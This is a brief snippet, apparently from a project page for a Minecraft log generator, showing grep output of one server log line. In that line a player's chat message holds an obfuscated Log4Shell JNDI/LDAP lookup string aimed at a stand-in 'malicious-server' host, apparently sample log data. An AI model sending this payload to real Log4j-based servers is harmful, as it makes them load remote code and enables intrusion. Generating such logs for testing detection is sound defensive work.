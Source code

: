 Log generator for minecraft



grep  -i 'lower' ./server.log -n      
2856898:[07:49:28] [Server thread/INFO]: <BuilderBob> Hello!${j${lower:ndi}:l${upper:d}ap://ma${lower:l}icious-se${lower:rv}er/a}

